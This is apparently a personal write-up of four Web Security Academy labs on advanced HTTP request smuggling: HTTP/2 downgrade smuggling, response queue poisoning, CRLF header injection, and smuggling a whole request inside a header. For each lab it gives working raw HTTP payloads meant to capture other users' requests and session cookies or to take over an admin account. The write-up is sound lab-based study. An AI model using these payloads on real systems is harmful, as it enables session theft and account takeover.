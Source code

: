 # Advanced
1. This lab solution wasn't working within the browser for some reason, although it did appear to work within Burp Repeater. After consulting the example solution, I still couldn't get it working and I'm not sure why. The following is my final payload:
```
POST / HTTP/2
Host: ac101ff41e6f7234c094d92e0075005b.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-ac231f511e88720dc0a3d9c601d200f6
Content-Length: 5

x=1
```
2. This lab is about smuggling an entire valid request in order to desynchronize the responses. This will result in each request being served the previous request's response. While the goal of the lab is to get served the response from the admin user logging in, I had a difficult time getting the timing to work and as such never managed to steal their cookie. However, the following payload did work and was successfully serving me other user's responses:
```
POST /x HTTP/2
Host: ac3c1fdb1f304080c04d167b00b200cd.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: ac3c1fdb1f304080c04d167b00b200cd.web-security-academy.net


```
3. This lab is about using headers smuggled within an HTTP/2 request to cause request smuggling. By using HTTP/2, we can include a `/r/n` sequence within a header's value field in order to hide and inject an arbitrary header into the HTTP/1.1 equivalent that gets generated from downgrading. As a result, the following payload can be used to make the next request sent by a user of the website to end up being searched on our account, allowing us to retrieve the request contents (including the session cookie) from our search history:
```
0

POST / HTTP/1.1
Host: ac791fc01f368077c0a869e2002400bf.web-security-academy.net
Cookie: session=tLgGKbh78ULe0FBVWjFa5oKkM7xo5IhY
Content-Length: 800

search=x
```
The previous is the request body, and it has a modified header of the form:
```
foo: bar
Transfer-Encoding: chunked
```
where the newline is a full `\r\n` sequence
4. This lab is about once again using response queue poisoning in order to steal the admin user's session cookie when the sign in. This can be leveraged to take over their account and access the admin panel by replacing your own session cookie with the stolen one. Adding the following header to a HTTP/2 request causes the queue poisoning to happen by injecting an entire extra HTTP/1.1 request within a header (note that all newlines are full `\r\n` sequences instead of just `\n`):
```
foo: bar

GET /x HTTP/1.1
Host: ac241fe31fce67a3c09d70c800be00e7.web-security-academy.net
```